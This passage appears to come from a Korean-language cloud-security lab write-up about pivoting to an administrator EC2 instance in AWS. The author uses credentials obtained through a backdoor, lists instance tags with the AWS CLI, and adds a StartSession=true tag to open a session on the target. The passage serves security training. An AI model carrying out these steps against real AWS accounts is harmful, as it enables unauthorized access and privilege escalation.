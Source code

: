 ### Admin EC2로 Pivot

- 백도어로 전달되는 credential 정보를 profile 등록해두고 해당 Conatiner에 연결된 정책들을 확인하였습니다.

```python
aws ec2 describe-instances --query 'Reservations[*].Instances[*].[Tags]' --profile ecs_role_efs
```

![Untitled](./32.png)

- 해당 정책에서 `StartSession` 에서 True라는 tag를 확인할 수있으며 EC2에서 StartSession을 허용하는 것을 확인할 수 있습니다.

AWS system manager and ec2 action 

```python
aws ec2 create-tags --resource i-0db441693a5e80703 --tags Key=StartSession,Value=true
```

```python
"AmiLaunchIndex": 0,
"ImageId": "ami-0a313d6098716f372",
"InstanceId": "i-0db441693a5e80703",
"InstanceType": "t2.micro",
"LaunchTime": "2021-08-18T04:13:12+00:00",
"Monitoring": {
    "State": "disabled"
},
```
